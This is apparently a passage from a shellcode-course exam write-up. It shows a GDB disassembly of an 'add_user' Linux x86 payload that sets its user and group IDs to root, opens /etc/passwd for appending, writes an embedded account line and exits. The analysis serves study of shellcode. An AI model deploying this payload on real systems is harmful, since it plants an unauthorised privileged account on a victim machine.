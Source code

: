 Loading the binary with GDB and setting necessary breakpoints gives shows us the disassembled binary.

```asm
dubs3c@slae:~/SLAE/EXAM/github/assignment_5$ gdb -q add_user
Reading symbols from /home/dubs3c/SLAE/EXAM/github/assignment_5/add_user...(no debugging symbols found)...done.
(gdb) b *0x8048054
Breakpoint 1 at 0x8048054
(gdb) r
Starting program: /home/dubs3c/SLAE/EXAM/github/assignment_5/add_user

Breakpoint 1, 0x08048054 in ?? ()
(gdb) disas 0x8048054, 0x8048054+97
Dump of assembler code from 0x8048054 to 0x80480b5:
=> 0x08048054:  xor    ecx,ecx
   0x08048056:  mov    ebx,ecx
   0x08048058:  push   0x46
   0x0804805a:  pop    eax
   0x0804805b:  int    0x80
   0x0804805d:  push   0x5
   0x0804805f:  pop    eax
   0x08048060:  xor    ecx,ecx
   0x08048062:  push   ecx
   0x08048063:  push   0x64777373
   0x08048068:  push   0x61702f2f
   0x0804806d:  push   0x6374652f
   0x08048072:  mov    ebx,esp
   0x08048074:  inc    ecx
   0x08048075:  mov    ch,0x4
   0x08048077:  int    0x80
   0x08048079:  xchg   ebx,eax
   0x0804807a:  call   0x80480a7
   0x0804807f:  ins    DWORD PTR es:[edi],dx
   0x08048080:  gs
   0x08048081:  je     0x80480e4
   0x08048083:  jae    0x80480f5
   0x08048085:  ins    BYTE PTR es:[edi],dx
   0x08048086:  outs   dx,DWORD PTR ds:[esi]
   0x08048087:  imul   esi,DWORD PTR [edx+edi*1+0x41],0x49642f7a
   0x0804808f:  jae    0x80480fb
   0x08048091:  xor    al,0x70
   0x08048093:  xor    al,0x49
   0x08048095:  push   edx
   0x08048096:  arpl   WORD PTR [edx],di
   0x08048098:  xor    BYTE PTR [edx],bh
   0x0804809a:  xor    BYTE PTR [edx],bh
   0x0804809c:  cmp    ch,BYTE PTR [edi]
   0x0804809e:  cmp    ch,BYTE PTR [edi]
   0x080480a0:  bound  ebp,QWORD PTR [ecx+0x6e]
   0x080480a3:  das
   0x080480a4:  jae    0x804810e
   0x080480a6:  or     bl,BYTE PTR [ecx-0x75]
   0x080480a9:  push   ecx
   0x080480aa:  cld
   0x080480ab:  push   0x4
   0x080480ad:  pop    eax
   0x080480ae:  int    0x80
   0x080480b0:  push   0x1
   0x080480b2:  pop    eax
   0x080480b3:  int    0x80
End of assembler dump.
(gdb)
```
